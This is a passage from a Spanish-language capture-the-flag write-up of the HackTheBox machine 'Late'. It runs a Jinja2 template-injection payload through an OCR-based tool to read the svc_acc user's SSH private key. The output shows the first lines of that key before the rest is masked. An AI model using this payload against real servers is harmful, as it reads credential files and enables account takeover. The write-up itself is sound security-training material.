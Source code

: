 ```bash
        let c+=1
done < fonts.txt
```

> Pueden encontrar el script en mi repositorio: [https://github.com/E1P0TR0](https://github.com/E1P0TR0/CVE-Machines_htb/blob/main/Auto-tool_Late/searchingSize.sh)
{: .prompt-info}

Recordamos que vimos un usuario llamado `svc_acc`, además sabemos que el puerto **22** estaba abierto. Así que en la clásica ruta `/home/{user}/.ssh/private_key` logramos visualizar la `private_key`:

```console
❯ ./script.sh 'get_flashed_messages["__globals__"]["__builtins__"].open("/home/svc_acc/.ssh/id_rsa").read()'

1 [+] Avenir Pro Light
         Fontsize : 8                                                                                                                                                       
         Qet_fashed_messages[_ gobais "T_ bulltms_ “].opan|"nome'svc_acc/.ssid rsa”) read{)                                                                                 
         Fontsize : 10                                                                                                                                                      
         .s j.open("/home/svc_acc/.ssh/id_rsa").read()                                                                                                                               Fontsize : 12                                                                                                                                                      
         get_flashed_messages["_ globals__"J["__builtins__"].open("/yhome/svc_ace/.ssh/id_rsa").read()                                                                      
         Fontsize : 14                                                                                                                                                      
         get flashed _messages[" globals_ "]["__ builtins _"].open("/home/svc_acc/.ssh/id_rsa").read()                                                                      
         Fontsize : 16                     
         get_flashed_messages["__globals__"J["__builtins__"].open("/home/svc_acc/.ssh/id_rsa").read()                                                                       
         Fontsize : 18                     
         get_flashed_messages["__globals__"]["__builtins__"].open("/home/svc_acc/.ssh/id_rsa").read()                                                                       


[!] Same payload ->  Size : 18 - Fontsize : Avenir Pro Light                          
[+] Payload converted to execution:        

<p>-----BEGIN RSA PRIVATE KEY-----         
MIIEpAIBAAKCAQEAqe5XWFKVqleCyfzPo4HsfRR8uF/P/3Tn+fiAUHhnGvBBAyrM                      
HiP3S/DnqdIH2uqTXdPk4eGdXynzMnFRzbYb+cBa+R8T/nTa3PSuR9tkiqhXTaEO                      
bgjRSynr2NuDWPQhX8OmhAKdJhZfErZUcbxiuncrKnoClZLQ6ZZDaNTtTUwpUaMi         
/mtaHzLID1KTl+dUFsLQYmdRUA639xkz1YvDF5ObIDoeHgOU7rZV4TqA6s6gI7W7
****************************************************************
****************************************************************
</p>
```
